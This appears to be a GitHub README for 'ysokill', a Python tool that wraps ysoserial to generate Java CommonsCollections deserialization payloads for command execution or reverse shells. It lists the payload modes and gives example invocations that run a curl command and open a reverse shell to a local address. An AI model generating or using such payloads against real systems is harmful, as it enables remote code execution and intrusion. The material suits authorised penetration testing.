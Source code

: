 <h1 align="center">
<br>⚔☕️ ysokill ☕️
</h1>

<!-- ABOUT THE PROJECT -->
## 📚 About The Project


   Ysokill is a python script for generate all CommonsCollections payload's using the ysoserial.

![image](https://user-images.githubusercontent.com/80011252/195660401-b066c1dd-718f-4f0a-9c57-d9ee4f4fd44e.png)

### 🛠️ Installation


1. Clone the repo
   ```sh
   git clone https://github.com/scarmandef/ysokill.git
   ```
2. Install dependencies
   ```sh
   pip3 install -r requirements.txt
   ```
3. Run the script
   ```py
   python3 main.py
   ```

### 🖥️ Usage


1. Run the Script
   ```sh
   python3 main.py --help
   ```
2. Choose the mode
   ```sh
      1 - Object Command "H4sIAAAA"
      2 - Object Reverse Shell "H4sIAAAA"
      3 - Object Command "rO0ABXNy"
      4 - Object Reverse Shell "rO0ABXNy"
      5 - Binary Command
      6 - Binary Reverse Shell
   ```
3. Example: Modes 1 to 3
   ```py
   python3 main.py -m 1 -c 'curl https://127.0.0.1'
   ```
4. Example: Modes 3 to 4
   ```py
   python3 main.py -m 4 -l 127.0.0.1 -p 443
   ```
